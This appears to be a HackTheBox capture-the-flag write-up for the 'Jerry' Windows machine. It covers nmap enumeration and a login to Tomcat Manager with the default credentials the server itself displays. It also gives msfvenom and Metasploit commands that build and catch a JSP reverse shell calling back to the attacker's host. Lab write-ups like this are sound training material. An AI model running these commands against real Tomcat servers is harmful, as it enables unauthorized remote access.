








# HackTheBox Jerry  
## Difficulty: Easy  
## Platform: Windows 

## Enumaration:
I'll start with a simple nmap scan on the IP.

```bash
nmap -sC -sV -oN outputNMAP.txt 10.129.136.9
```



The nmap scan reveals a web server on port 8080.



Trying to access the "Manager App" page prompts a login.



If we cancel the login we get this.



We can see a username and password are given as an exemple of credentials. Using them we can access the page.



## Foothold

I'll use msfvenom to make a reverse shell payload, upload it and also deploy it. I'll also open metasploit and set up the multi/handler module.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.54 LPORT=6666 -f war > shell.war
sudo msfconsole -q
use multi/handler
set LPORT 6666
set LHOST tun0
run
```




I'll acces the page "/shell" and listen for a connection.



I'm going to check out what user I am.

```cmd
whoami
```



As we can see, we don't need to do any priveleage escalation.

I will get the flags now.

```cmd
cd ..
dir
cd Users
dir
cd Administrator
dir
cd Desktop
dir
cd flags
dir
type "2 for the price of 1.txt"
```

## We got both the user flag and the root flag!